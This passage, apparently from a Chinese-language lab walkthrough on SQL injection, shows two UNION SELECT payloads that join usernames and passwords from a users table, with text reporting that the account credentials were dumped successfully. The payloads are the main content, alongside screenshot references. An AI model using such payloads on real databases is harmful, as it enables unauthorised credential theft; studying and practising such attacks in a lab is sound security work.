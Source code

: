 ```
payload：' union select username||'~'||password,null from users--
```

![图片 24](assets/%E5%9B%BE%E7%89%87%2024.png) 

#### 2.7.2.3. **测试成功**

这里我们替换了一个位置，成功爆出账户密码。

```
payload：' union select null,username||'~'||password from users--
```

![图片 25](assets/%E5%9B%BE%E7%89%87%2025.png) 
